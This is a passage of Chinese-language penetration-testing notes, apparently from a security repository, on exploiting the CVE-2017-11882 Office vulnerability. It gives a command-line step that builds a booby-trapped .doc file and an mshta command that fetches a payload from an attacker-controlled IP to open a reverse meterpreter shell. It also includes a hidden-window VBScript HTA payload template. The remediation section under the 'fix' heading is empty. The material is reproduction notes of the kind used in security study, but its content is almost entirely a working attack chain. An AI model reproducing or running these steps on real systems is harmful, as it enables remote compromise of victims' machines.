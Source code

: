 ![image-20230802140235798](./主机渗透.assets/image-20230802140235798.png) 

靶机执行`mshta.exe "http://100.1.1.121:3344/123"`这个命令就可以得到一个反弹的shell了。(需要外联 )

此处使用 Command_CVE-2017-11882.py 生成一个存在漏洞的doc文件

```py
python Command_CVE-2017-11882.py -c "mshta.exe http://100.1.1.121:3344/123" -o test.doc
[*] Done ! output file >> test.doc <<
```

用office打开这个文件，随后msf获得meterpreter shell

mshta尝试获取的文件格式大致如下：

```html
<HTML> 
<meta http-equiv="Content-Type" content="text/html; charset=utf-8">
<HEAD> 
<script language="VBScript">
Window.ReSizeTo 0, 0
Window.moveTo -2000,-2000
Set objShell = CreateObject("Wscript.Shell")
objShell.Run "calc.exe"
self.close
</script>
<body>
demo
</body>
</HEAD> 
</HTML> 
```



> 参考

[CVE-2017-11882利用](https://evi1cg.me/archives/CVE_2017_11882_exp.html)

[CVE-2017-11882的复现、利用技巧以及修复方案](https://mp.weixin.qq.com/s/o3Psnsl8OBmVdkUrvcTLsw)

[CVE-2017-11882漏洞复现和利用](http://www.freebuf.com/vuls/154978.html)

> 修复
